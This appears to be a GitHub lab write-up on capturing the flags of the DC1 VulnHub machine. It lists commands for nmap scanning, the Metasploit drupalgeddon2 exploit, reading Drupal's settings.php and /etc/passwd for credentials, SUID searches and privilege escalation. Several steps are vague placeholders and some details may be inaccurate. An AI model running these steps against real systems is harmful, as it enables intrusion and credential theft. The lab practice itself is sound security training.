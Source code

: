 # Home Hacking Lab: DC1 VulnHub Machine Exploitation

## Description
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

## Apps, Languages, & Utilities Used
- **Virtualization Software:** VirtualBox
- **Operating Systems:** Kali Linux, DC1 VulnHub machine
- **Security Tools:** Metasploit, nmap, Hydra, LinPEAS, MySQL
- **Scripting:** Bash

## Environments Used
- **Kali Linux:** Attacker Machine
- **DC1 VulnHub Machine:** Vulnerable VM

## Objective
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

## Skills Learned
- Setting up VMs in Oracle VM VirtualBox.
- Performing vulnerability scanning using nmap.
- Exploiting web application vulnerabilities using Metasploit.
- Brute-forcing login credentials using Hydra.
- Capturing and analyzing database credentials.
- Performing privilege escalation and capturing flags on a vulnerable machine.
- Documenting and reporting exploitation techniques.

## Steps Taken

### Download and Setup DC1 VulnHub Machine

#### Download DC1 Machine from VulnHub
- Navigate to VulnHub and search for DC1 or go directly to the [DC1 VulnHub page](https://www.vulnhub.com/entry/dc-1,292/).
- Download the DC1 machine and extract the contents.

#### Import the DC1 Machine into VirtualBox
- Open VirtualBox and go to `File > Import Appliance`.
- Select the extracted DC1 file and follow the prompts to complete the import.

#### Configure Network Settings
- Adjust the network adapter to NAT Network and select the appropriate network.

#### Start the DC1 VM
- Boot up the DC1 VM and ensure it is running properly.

<br>

# Exploitation of DC1 VulnHub Machine 

### Flag 1: Initial Enumeration and Exploitation
**Objective:** Identify and capture the first flag by exploiting the web application.

##### Verify DC1 Machine is Running
- Ensure the DC1 machine is up and running by pinging its IP address:
  ```bash
  ping 10.0.200.6

### Information Gathering
- Perform an nmap scan to identify open ports and services:
`bash
nmap -A -sC -oN dc.txt 10.0.200.6`

### Enumerate the Web Application
- Access the web application running on port 80 and identify that it is using Drupal.
- Use Metasploit to find and exploit vulnerabilities in Drupal:
`bash
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run`

### Capture Initial Flag
- Once you gain a shell, navigate the file system to find the first flag:
`bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt`
- Flag 1 Content: "Every good CMS needs a config file."

<br>

### Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

#### Identify Configuration Files
- Use the hint from Flag 1 to locate the Drupal configuration file:
`bash
cat /var/www/html/sites/default/settings.php`

##### Find Database Credentials
- Extract database credentials from the configuration file.

##### Connect to the Database
Use the credentials to connect to the MySQL database:
`bash
mysql -u dbuser -p`

##### Enumerate Database and Capture Flag
- Enumerate the database to find the second flag:
`bash
show databases;
use drupal;
show tables;
select * from flags;`
- Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."

<br>

### Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

##### Identify Weak Configurations
Search for files with weak permissions or misconfigurations that could allow privilege escalation:
`bash
find / -perm -4000 -type f 2>/dev/null`

##### Exploit Weakness
Use tools like GTFOBins to escalate privileges:
`bash
/path/to/vulnerable_binary`

##### Capture Third Flag
Once privileges are escalated, navigate the file system to find the third flag:
`bash
find / -name flag3.txt
cat /path/to/flag3.txt`
- Flag 3 Content: "There's more than one way to skin a cat."

<br>

### Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

##### Enumerate Users
List all users on the system and look for interesting files in their home directories:
`bash
cat /etc/passwd
ls /home`

##### Check for Reused Passwords
Try using previously discovered passwords to switch to different users:
`bash
su - username`

##### Capture Fourth Flag
Navigate the user's home directory to find the fourth flag:
`bash
find /home -name flag4.txt
cat /path/to/flag4.txt`
- Flag 4 Content: "You can use the same method to find or access the root flag."

<br>

### Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

##### Identify Privilege Escalation Vector
Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.

##### Exploit and Gain Root Access
Perform the privilege escalation to gain root access:
`bash
/path/to/exploit`

##### Capture Final Flag
Navigate to the root directory and find the final flag:
`bash
cd /root
cat final_flag.txt`
- Final Flag Content: "Well done! You have completed the DC1 challenge."
